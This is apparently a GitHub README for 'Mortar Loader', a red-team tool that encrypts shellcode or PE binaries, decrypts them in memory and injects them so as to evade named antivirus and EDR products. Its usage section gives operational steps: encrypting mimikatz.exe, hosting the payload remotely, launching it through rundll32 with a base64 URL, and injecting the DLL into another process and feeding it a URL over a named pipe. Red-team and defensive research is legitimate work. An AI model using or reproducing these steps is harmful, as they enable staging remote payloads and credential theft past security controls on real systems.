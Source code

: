 [<img src="https://img.shields.io/twitter/follow/zux0x3a?label=follow&style=social">](https://twitter.com/zux0x3a)

# Mortar Loader 

Red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption PE/Shellcode inside the memory streams and execute it leveraging several injection techniques . 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky  :heavy_check_mark:
* ESET AV / EDR :heavy_check_mark:
* Malewarebytes :heavy_check_mark:
* Mcafee :heavy_check_mark:
* Windows defender :heavy_check_mark:
* Cylance :heavy_check_mark:
* TrendMicro :heavy_check_mark:
* Bitdefender :heavy_check_mark:
* Norton Symantec :heavy_check_mark:
* Sophos EDR :heavy_check_mark:


##  Updated features 

The newer version release (v3) has been released with the following features : 

* Fileless execution with remote staged encrypted binary or shellcode.
* Early Bird APC injection.
* Process masquerading.
* Supports Named Pipes.
* Strings and function calls obfuscation.
* Mortar covert reload subroutine.
* Delay execution techniques.

For more technical description, refer to the following blogpost : https://kpmg.com/nl/en/home/insights/2023/12/mortar-loader.html 

## Usage 

### Encryptor 

The encryptor encrypt C ShellCode and PE binaries and write the output into .enc file. 
you are allowed to use any payload(MSF/cobalt/Havoc..etc) as you prefer as long it is x64 arch and not RAW. 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 

```

### Mortar Loader Library

The newer release leverage several techniques combined with remote payload fetching, recommend to refer to following blogpost to get more insights. 

for quick instructions 

```
# PE Forking

1. host your encrypted binary on remote host. 
2. encode the final URL with base64. 
3. rundll32.exe agressor.dll,viewlogs [BASE64 URL].
4. covert reload subroutine technique is enabled. 
```

currently supports early bird injection in combination with Named Pipes to receive variables for final execution.  
```
1. inject Mortar DLL into remote process( DLL injection, Hijacking, sideloading).
2. connect into the named pipe to supply your URL 
   echo {BASE64 URL} > [\\.\pipe\](file:///./pipe/)moj_ML_ntsvcs 
3. payload will be executed once valid value has been recieved. 
```

## Compiling 

the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads).

for the encryptor you you can download it from the release section or compile it easily with lazarus ide. 

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```

## Publications 

* The v1 release : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions
* Mortar Loader v2 features : https://0xsp.com/offensive/mortar-loader-v2/
* CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

## Sponsor ?
the development of mortar or any shared project is an outcome from my personal time.
- you show continues appreciation of my work. 
- you will get early access to pre-release. 
- ask questions / will be answered. 

